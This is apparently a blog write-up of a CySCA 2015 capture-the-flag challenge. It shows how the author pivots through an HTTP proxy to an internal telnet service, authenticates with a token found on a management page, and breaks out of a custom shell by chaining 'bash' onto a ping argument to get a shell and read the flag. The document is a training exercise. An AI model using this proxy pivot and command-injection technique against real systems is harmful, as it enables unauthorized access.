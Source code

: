 ```yaml
---
title: CySCA 2015 - Corporate Pentest 2.0 - Murphys Law
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


From Sales Pitch we discover the server has some internal bound services,
most notably telnet (port 23) - These are listed on the internal management page. It is only accessible from inside the network
however. 

Fortunately, telnet is a text based protocol, so we can easily just do a
proxy`HTTP CONNECT` to it via the proxy. 

{% highlight bash %}
$> telnet 172.16.5.30 3128
CONNECT 10.10.5.30:23 HTTP/1.0
{% endhighlight %}

<!--break-->

We need to authenticate (token is found on the backend management page)
{% highlight bash %}
Token: 7e8e816557776037a15f
{% endhighlight %}

We are now connected to the home baked shell implementation. We need to break out. *Get root*. 

We realise it has a ping command, which uses system ping and takes arguments. 
We tell ping to only execute once, and chain another command to it -> bash. 

{% highlight bash %}
$> ping -c1 10.10.5.30 && bash
{% endhighlight %}

We now have a shell. From here we can:

{% highlight bash %}
$> cat flag.txt
FLAG{27EE85353BC178B42F08A285AFAC1633}
{% endhighlight %}
 
And thus revealing the flag.

After we found the flag, a hint was revealed:

> Maybe try ping "and"

